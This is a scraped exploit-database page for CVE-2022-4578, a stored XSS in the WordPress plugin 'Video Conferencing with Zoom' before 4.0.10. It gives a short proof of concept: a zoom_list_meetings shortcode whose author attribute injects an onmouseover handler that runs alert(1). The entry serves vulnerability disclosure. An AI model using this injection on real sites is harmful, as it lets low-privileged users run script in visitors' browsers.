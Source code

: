 ```yaml
---
title: Video Conferencing with Zoom < 4.0.10 - Contributor+ Stored XSS exploit
url: https://sploitus.com/exploit?id=WPEX-ID:FAD16C68-9F14-4866-B241-40468FB71494&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-30
fetch_date: 2025-10-04T02:42:49.737509
---
```


# Video Conferencing with Zoom < 4.0.10 - Contributor+ Stored XSS exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Video Conferencing with Zoom < 4.0.10 - Contributor+ Stored XSS CVE-2022-4578

2022-12-29 | CVSS 5.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=WPEX-ID:FAD16C68-9F14-4866-B241-40468FB71494
1. Insert the following shortcode in a post/page: [zoom_list_meetings author='" onmouseover="alert(1)"']

2. Hover over the list or the "No Meetings Found" message if there are no elements to show, the alert will trigger successfully.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)